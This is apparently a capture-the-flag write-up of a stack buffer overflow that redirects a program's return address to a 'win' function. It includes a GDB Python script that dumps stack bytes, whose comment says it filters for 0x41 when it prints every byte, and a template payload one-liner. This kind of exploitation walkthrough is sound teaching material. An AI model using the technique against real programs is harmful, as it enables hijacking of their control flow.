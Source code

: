 In this challenge we will overflow the buffer so that we can get to the memory location where return address is stored and change it to the address of win function

First I entered 4,5 A as input to see where the input variable starts from and then i located the return address by matching the return address which i got from objdump to a value on the stack. 

And for that i used the python script to print out all the stack from rsp to rbp.

```python
import gdb

# Function to read memory from rsp and print address and value if it's 0x41
def print_stack(rsp, rbp):
    num_bytes = rbp - rsp
    print(f"Reading memory from {hex(rsp)} to {hex(rsp + num_bytes)}:")

    # Iterate over the range of bytes
    
    for i in range(num_bytes+1):
        # Calculate the current memory address
        current_address = rsp + i
        
        # Read each byte from the address
        byte_value = gdb.parse_and_eval('*((unsigned char*){})'.format(hex(current_address)))

        # Print the address and value only if the value is 0x41
        print(f"Address: {hex(current_address)} | Value: {hex(byte_value)}")


# Get the current stack pointer (rsp)
rsp = gdb.parse_and_eval("$rsp")
rbp = gdb.parse_and_eval("$rbp")
print_stack(rsp, rbp)
```

Now we know from where the input buffer starts from and where the return address is, we can simply fill the space between return address and input variable and then the return address

Since we cannot have `\n` we will use python for this

    python -c 'import sys; sys.stdout.buffer.write(b"A"*(difference between input variable and return address location) + b"return address of win function in little endidan format")' | ./program


